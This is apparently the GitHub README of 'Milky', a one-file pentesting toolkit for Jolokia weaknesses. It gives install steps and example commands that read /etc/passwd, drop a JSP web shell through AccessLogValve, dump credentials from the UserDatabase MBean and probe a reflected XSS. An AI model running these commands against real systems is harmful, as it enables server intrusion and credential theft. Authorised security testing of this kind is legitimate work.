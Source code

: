 # Milky

<img align="center" src="./img/milky.png">

Milky is a lightweight, one‑file toolkit that helps pentesters quickly verify
and exploit common Jolokia misconfigurations / weaknesses (File‑read,
AccessLogValve RCE, UserDatabase dump, Spring `EnvironmentManager` abuse,
reflected XSS CVE‑2018‑1000129).


## Installation

```bash
git clone https://github.com/unclej4ck/milky.git
cd milky
python3 -m venv venv && . venv/bin/activate
pip install -r requirements.txt
```

## Quick examples

### Verification of Jolokia misconfiguration
```
python3 milky.py http://target:8080/jolokia scan
```
### Read /etc/passwd through DiagnosticCommand
```
python3 milky.py http://target:8080/jolokia read -f /etc/passwd
```

### Drop & verify a JSP shell via AccessLogValve
```
python3 milky.py http://target:8080/jolokia deploy
```

### Dump credentials from the UserDatabase MBean
```
python3 milky.py http://target:8080/jolokia creds
```
### Reflected‑XSS probe (CVE‑2018‑1000129)
```
python3 milky.py http://target:8080/jolokia xss
```

> Add --debug for full HTTP traces and --user/--password for Basic‑Auth.


## TO-DO
- [ ] Adding more exploits
- [ ] Adding more verifications
- [ ] Fixing bugs

## Credits

Thanks to laluka for his work on [jolokia-exploit](https://github.com/laluka/jolokia-exploitation-toolkit).
